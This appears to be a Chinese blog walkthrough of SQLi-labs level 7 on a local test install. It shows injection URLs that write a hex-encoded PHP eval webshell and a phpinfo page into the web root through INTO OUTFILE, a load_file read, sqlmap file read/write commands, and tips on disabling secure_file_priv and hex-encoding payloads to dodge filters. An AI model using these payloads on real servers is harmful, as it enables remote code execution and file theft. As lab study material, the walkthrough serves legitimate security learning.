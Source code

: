 ```yaml
---
 title: Sqlilabs通关笔记(7)读写注入
 date: 2020-01-04 09:34:26
 tags: SQL注入
 categories:
---
```



## 第七关 基于文件写入注入
![2020-1-5-8-11-29](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-8-11-29)

### 存在注入点判断
1. 任意输入单引号，会显示报错
2. 正常运行提示 Use outfile...... 所以理解为写入mm文件执行
3. 通过尝试发现闭合'))，通过查看源代码，再次确定闭合成功

    ```
        $sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);

        if($row)
        {
        echo '<font color= "#FFFF00">';	
        echo 'You are in.... Use outfile......';
        echo "<br>";
        echo "</font>";
        }
        else 
        {
        echo '<font color= "#FFFF00">';
        echo 'You have an error in your SQL syntax';
        //print_r(mysql_error());
        echo "</font>";  
        }
    }
        else { echo "Please input the ID as parameter with numeric value";}

    ```
<!--more-->
### 写入文件配置（使用条件）

**secure-file-priv**
    - 如果文件导入不成功,确认Mysql配置文件my.ini下存在secure-file-priv
    - secure-file-priv参数是用来限制LOAD DATA, SELECT … OUTFILE, and LOAD_FILE()传到哪个指定目录的

* secure_file_priv的值为null ，表示限制mysqld不允许导入|导出
* secure_file_priv的值为/tmp/ ，表示限制mysqld的导入|导出只能发生在/tmp/目录下
* secure_file_priv的值没有具体值时，表示不对mysqld的导入|导出做限制

mysql使用以下命令查看是否打开文件写入开关
> show global variables like '%secure%'

![2020-1-4-13-44-44-Sqlilabs通关笔记(7)读写注入](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-4-13-44-44-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(7)%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5)

修改my.ini添加secure-file-priv参数,没有填具体值表示不做限制(这样做其实很危险)
![2020-1-4-13-47-35-Sqlilabs通关笔记(7)读写注入](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-4-13-47-35-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(7)%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5)

重启mysql即可

### 写入敏感文件

写入一句话木马
> http://127.0.0.1/sqlilabs2/Less-7/index.php?id=-1')) union select 1,0x3c3f706870206576616c28245f504f53545b636d645d293b3f3e,3 into outfile "E:\\softs\\phpstudy_pro\\WWW\\sqlilabs2\\Less-7\\mm2.php"--+

写入phpinfo
> http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1')) 1,0x3c3f70687020706870696e666f28293b3f3e,3 into outfile "E:\\softs\\phpstudy_pro\\WWW\\sqlilabs2\\Less-7\\pp2.php--+

**写入需要注意的**
* 写入的内容需要用hex转码，以防拦截
* 写入的前提需要知道物理文件路径
* 写入的前提是有权限写入，或者有配置写入的权限

**可以在文件目录查看发现文件写入成功**

![2020-1-4-13-33-20-Sqlilabs通关笔记(7)读写注入](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-4-13-33-20-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(7)%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5)

**同时网页可以直接访问该文件并执行**

![2020-1-4-13-34-17-Sqlilabs通关笔记(7)读写注入](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-4-13-34-17-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(7)%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5)


### 读取敏感文件
- **前提要有页面输出哦！**
> http://127.0.0.1/sqlilabs2/Less-3/index.php?id=-1') union select 1,load_file('e:\\mm.php'),3--+



### SQLMQP 读写文件

**文件读取**

> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-1/index.php?id=1" --file-read "E:\\mm.php"

**文件写入**
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1" --file-write "/home/bb/1.txt" --file-dest "E:\\sql2.php" --batch
